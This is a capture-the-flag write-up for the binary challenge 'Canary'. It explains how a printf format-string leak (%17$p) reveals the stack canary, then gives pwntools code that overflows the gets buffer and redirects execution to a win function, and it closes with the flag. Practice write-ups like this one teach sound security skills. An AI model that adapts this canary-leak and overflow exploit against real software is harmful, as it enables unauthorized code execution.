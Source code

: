 # Canary
## Binary, 70 pts.

#### Description
A tear rolled down her face like a tractor. “David,” she said tearfully, “I don’t want to be a farmer no more.”

—Anonymous

Can you call the flag function in this program (source)? Try it out on the shell server at /problems/2020/canary or by connecting with `nc shell.actf.co 20701`.

Author: kmh

#### Hint
That printf call looks dangerous too...

### Writeup
#### Analysis
At lines 39 and 44 we can see 2 calls to "gets", an unsafe function which allows us to overflow the buffer.<br>
However, the binary has canaries. Canaries are an integer on the stack which is set at the beginning of the function. Before exiting the function, the program checks if they have been corrupted. If they have, the program is killed. That means we cannot just overflow the buffer and set a return address. However, in this program we can leak the canary thanks to the `printf format string attack`.

```C
char name[20];
gets(name);
printf("Nice to meet you, ");
printf(strcat(name, "!\n"));
printf("Anything else you want to tell me? ");
char info[50];
gets(info);
```

The first string (name) is passed to printf. We can use this to leak the canary. Then, with the second gets, we overflow the buffer, keeping the canary with the same value. Our overflow will not trigger the stack smashing check snymore and we will be able to redirect the program's flow.

#### Leaking the Canary
Our first string should be like `%N$p' where N is the position of the canary on the stack. How to find N? Here's a really lazy way to do it:

```Python
for x in range(1, 20):
    p = process('./canary')
    p.sendline('%{}$p'.format(x))
    p.recvuntil('Nice')
    print(x)
    print p.recvline()
    p.close()
```

Run this multiple times and analyze the output. You're looking for an integer which seems to be quite random every time. In this program, I found N to be 17.


#### Redirecting program flow
Now, let's redirect program flow. First, use radare2 or IDA or similar to find out the size of the buffer and the address of the win function.<br>
The win function is at 0x400787.<br>
The string starts at RBP - 0x40. At RBP - 0x8 we find the canary, and at RBP + 8 we find the return address. Let's craft our overflow accordingly.<br>

```Python
p.sendline('%{}$p'.format(17).encode('ascii'))
p.recvuntil(b'Nice to meet you, ')
canary = int(p.recvuntil(b'!')[:-1].decode('ascii'), 16)
print('Canary: {}'.format(hex(canary)))

exploit = b'a' * (0x40 - 0x8) + p64(canary) + b'a' * 8 + p64(win_func)
p.sendline(exploit)
print(p.recvall().decode('ascii'))
```

### Flag
`actf{youre_a_canary_killer_>:(}`

